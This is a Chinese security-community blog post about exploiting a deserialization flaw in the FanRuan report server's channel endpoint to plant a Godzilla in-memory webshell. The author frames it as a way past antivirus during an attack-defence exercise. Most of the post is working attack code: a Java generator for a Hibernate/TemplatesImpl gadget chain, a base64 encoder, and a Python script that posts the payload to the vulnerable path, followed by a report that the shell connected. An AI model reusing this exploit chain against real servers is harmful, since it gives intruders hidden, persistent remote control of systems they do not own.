

# 帆软channel反序列化注入哥斯拉内存马 - 先知社区

帆软channel反序列化注入哥斯拉内存马

- - -

## 前言

在之前某次攻防演练中发现帆软channel反序列化漏洞，但是存在360，没能拿到shell，所以研究了一下帆软注入内存马。

## 生成内存马字节码文件

使用[Java Memshell Generator工具](https://github.com/pen4uin/java-memshell-generator-release)生成Tomcat Filter类型的内存马字节码文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213141549-0f8266c2-997f-1.png)

用IDEA打开生成的.class文件，然后将其代码复制到.java文件中。继承一下`AbstractTranslet`（因为使用TemplatesImpl类利用）。再简单分析一下几个参数，`getBase64String`方法返回的是实现哥斯拉webshell的类，`getUrlPattern`返回的内容是Filter的有效路径，`getClassName`返回的应该是注入器类名，对比上图内存马类名和注入器类名，作者好像写反了。这里就不对内存马注入的原理进行研究了，直接开始生成exp。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213141618-2093120e-997f-1.png)

## 反序列化利用exp生成

使用hibernate1反序列化利用链生成exp，因为帆软的包和正常hibernate利用链的包名有所区别，所以需要引入帆软的依赖生成exp。

我引入了以下两个jar包（实际上只需要引用fine-third-10,0.jar这个即可）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213141628-26ef2854-997f-1.png)

使用javassist获取利用类的字节码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213141637-2c46afca-997f-1.png)

生成exp代码：

```plain
import com.fr.third.org.hibernate.engine.spi.TypedValue;
import com.fr.third.org.hibernate.type.ComponentType;
import com.nqzero.permit.Permit;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.reflect.ReflectionFactory;
import util.SerialUtil;

import java.io.FileOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.zip.GZIPOutputStream;

public class hibernateFR {
    public static void main(String[] args) throws Exception {
        byte[] code = SerialUtil.getBytecodes();
        TemplatesImpl obj = new TemplatesImpl();
        SerialUtil.setFieldValue(obj, "_bytecodes", new byte[][] {code});
        SerialUtil.setFieldValue(obj, "_name", "test");
        SerialUtil.setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Class clazz = Class.forName("com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer");
        Constructor constructor = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor);
        Constructor pojoct = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz, constructor);
        Permit.setAccessible(pojoct);
        Object pojoCT = pojoct.newInstance();

        Class clazz1 = Class.forName("com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer");
        Class clazz4 = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
        Constructor constructor4 = clazz4.getDeclaredConstructor(Class.class, String.class, Method.class);
        Object getter = constructor4.newInstance(obj.getClass(), "outputProperties", obj.getClass().getMethod("getOutputProperties"));
        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);
        Field f = clazz1.getDeclaredField("getters");
        f.setAccessible(true);
        f.set(pojoCT, getters);

        Class clazz3 = Class.forName("com.fr.third.org.hibernate.type.ComponentType");
        Constructor constructor2 = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor2);
        Constructor constructor3 = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz3, constructor2);
        ComponentType componentType = (ComponentType) constructor3.newInstance();
        TypedValue typedValue = new TypedValue(componentType, null);
        SerialUtil.setFieldValue(componentType, "componentTuplizer", pojoCT);

        SerialUtil.setFieldValue(componentType, "propertySpan", 1);

        HashMap<Object, String> map = new HashMap<>();
        map.put(typedValue, "1jzz");
        //Object template = Gadgets.createTemplatesImpl("TomcatEcho");
        SerialUtil.setFieldValue(typedValue, "value", obj);


        //SerialUtil.unserial(SerialUtil.serial(map));
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(new FileOutputStream("生成exp的文件路径"));
        byte[] data = SerialUtil.serial(map).toByteArray();
        gzipOutputStream.write(data);
        gzipOutputStream.close();
    }
}
```

读取生成的序列化文件，并进行base64编码，得到利用payload，由于太长了，这里我就不放上来了。

```plain
def encode_ser():
    with open("shell", "rb") as f:
        binary = f.read()
        data = base64.b64encode(binary)
        print(data)

if __name__ == '__main__':
    encode_ser()
```

使用脚本利用：

```plain
import base64
import requests

def cmd():
    proxies = {
        'http': 'http://127.0.0.1:8081',
        'https': 'http://127.0.0.1:8081'}

    try:

        burp0_url = "http://localhost:8080/webroot/decision/remote/design/channel"
        burp0_headers = {"Content-Type": "application/x-www-form-urlencoded"}

        b = b"生成payload字节码的base64编码"

        burp0_data = base64.b64decode(b)

        res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=3, proxies=proxies)
    except Exception as e:
        print(e)


if __name__ == "__main__":
    cmd();
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213141707-3e2fcc76-997f-1.png)

连接内存马成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213141716-43852e96-997f-1.png)

# 参考

[https://github.com/pen4uin/java-memshell-generator-release](https://github.com/pen4uin/java-memshell-generator-release)
